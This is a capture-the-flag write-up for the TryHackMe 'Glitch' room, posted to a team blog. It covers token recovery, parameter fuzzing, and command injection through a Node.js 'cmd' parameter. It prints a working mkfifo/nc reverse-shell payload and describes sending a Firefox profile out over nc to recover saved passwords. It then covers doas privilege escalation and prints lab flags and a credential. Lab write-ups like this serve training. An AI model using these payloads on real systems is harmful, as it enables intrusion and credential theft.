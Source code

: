 ```yaml
---
title: Glitch
layout: post
author: Bit Criminals Team
date: 2021-05-14 17:02:00 +0530
type: Pentesting
difficulty: Easy
prompt: https://tryhackme.com/room/glitch
---
```


We start with out routine Nmap scan which reveals that port 80 (running on Node js) is the only port open out of all 65535 ports.

![](/images/MaskdMafia/glitch3.png)

So we add the ip to our /etc/hosts before proceeding to visit it in our browser and be greeted with this:

![](/images/MaskdMafia/glitch1.png)

The question gives an idea about some kind of access token.
Checking the source code of the webpage, we find this interesting function getAccess() which seems to be fetching something.

![](/images/MaskdMafia/glitch2.png)

So we execute the function in the console and get back a string which seems to be base64 encoded.

![](/images/MaskdMafia/glitch4.png)

So we decode it and get the Access token.

![](/images/MaskdMafia/glitch5.png)

Checking the Network Tab of the webpage shows us that the value of the token has not been entered yet, so we enter the value of our Access token and reload the page in the browser to get a different-looking webpage.

![](/images/MaskdMafia/glitch6.png)

Looking at the source code of the new webpage, we see a section /api/items so we try to access it in our browser.

![](/images/MaskdMafia/glitch7.png)

So we fire up BurpSuite to see what is happening when we try to access the page .
We see that while trying to send a post request to /api/items we get this message:

```py
{"message":"there_is_a_glitch_in_the_matrix"}
```

Since,we are able to send POST requests.Let us search which parameters are available with wfuzz.

```shell
wfuzz -XPOST -u http://ip/api/items?FUZZ=id -w /usr/share/seclists/Discovery/Web-Content/api/objects.txt --hh 45
```

![](/images/glitch.png)

Thus, we see that Cmd is available.

Now,we fire up burp and send a random request with cmd and it's working.

![](/images/glitch2.png)

Now,I started searching for the payload and I found one

```
require("child_process").exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.4.53 4444 >/tmp/f")
```

I changed the ip,encoded in URl form and POST this one.
And,it worked.

![](/images/glitch4.png)

Listening to the PORT we have the shell.

we stabilise our shell then with,

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
```

Looking in the directories we get our user flag.

![](/images/glitch5.png)

Here's our user flag:**THM{i_don't_know_why}**

After some searching we found a .firefox folder inside /home/user/ directory

We can take advantage of this folder and extract next user's password...

Firstly we created a tar file of the .firefox folder and sent it to our terminal through nc

![](/images/D4rkDemian/glitch2.png)

![](/images/D4rkDemian/glitch3.png)

After running following command we got the v0id user's password 

```shell
firefox --profile b5w4643p.default-release --allow-downgrade
```

![](/images/D4rkDemian/glitch.png)

```
v0id:love_the_void
```

After logging as v0id I searched for some leaks through which we can become root and I found that as **doas**

i ran 
```shell
find / -type f -perm /4000 2>/dev/null
```
and doas was a sus!

![](/images/D4rkDemian/glitch4.png)

After reading about it in [doas](https://github.com/slicer69/doas) i used the following command and got the root

```shell
doas bash -p
```
![](/images/D4rkDemian/glitch5.png)

And finally got the root flag!!

**THM{diamonds_break_our_aching_minds}**


